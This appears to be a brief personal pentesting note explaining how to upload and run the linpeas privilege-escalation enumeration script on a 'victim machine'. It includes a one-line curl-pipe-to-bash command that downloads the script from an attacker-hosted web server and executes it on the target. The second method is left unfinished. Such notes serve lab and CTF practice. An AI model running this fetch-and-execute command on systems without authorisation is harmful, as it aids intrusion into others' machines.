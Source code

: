 # Using linpeas on the victim machine

Ok so, _linpeas_ has to be uploaded one way or another to the victim machine to be able to use it. It's just a shell script, but there are multiple ways to get it there.

## Method 1 - Curl

**Step 1:** Set up a _Python Web Server_ in the directory with the _linpeas.sh_ file

![image](https://github.com/user-attachments/assets/7c405d31-8c17-4448-a217-8dcf44b96706)

**Step 2:** After it's hosted, _curl_ it and pipe it immediately into _bash_ to run it immediately, like so:

```
curl http://[IP Address]:[Port]/linpeas.sh | bash
```

**Step 3:** Stonks

![image](https://github.com/user-attachments/assets/13e05253-468e-43a8-be55-60d5e3eca616)

## Method 2 - SCP

**TBC (cuz I know u can use this, I just forgot the specific commands ://)**
